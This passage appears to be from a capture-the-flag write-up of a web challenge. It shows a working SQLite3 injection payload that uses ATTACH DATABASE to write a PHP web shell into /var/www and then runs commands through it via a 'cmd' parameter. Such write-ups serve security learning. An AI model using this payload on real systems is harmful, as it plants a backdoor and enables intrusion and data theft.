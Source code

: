 I first checked the **'Dockerfile'** to see where the flag is located. It has a random value of file name so there's no way we can try to load the file using SQL injection. Instead we can try to get an RCE. Also, the directory of the web application is in /www.

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517190130.png)

SQLite3 RCE Payload:

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>"); --
```

Injecting SQLi Payload:

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517190444.png)

Let's now try to visit **'lol.php?cmd=id'** to check if our payload works.

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517190529.png)

We now have an RCE, let's try to read the flag.

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517190556.png)
![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517190632.png)
